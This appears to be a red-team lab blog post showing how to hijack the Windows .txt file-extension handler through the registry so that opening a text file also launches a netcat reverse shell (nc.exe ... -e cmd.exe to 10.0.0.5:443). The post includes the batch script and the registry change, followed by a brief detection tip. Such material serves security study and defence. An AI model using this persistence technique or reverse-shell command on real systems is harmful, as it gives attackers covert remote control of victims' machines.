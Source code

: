 ```yaml
---
layout: post
title: "hijacking default file extension"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


# Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension (among many others) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.&#x20;

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](<../../.gitbook/assets/image (427).png>)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](<../../.gitbook/assets/image (430).png>)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\tools\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](<../../.gitbook/assets/image (429).png>)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](<../../.gitbook/assets/image (431).png>)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" %}
@spotheplanet

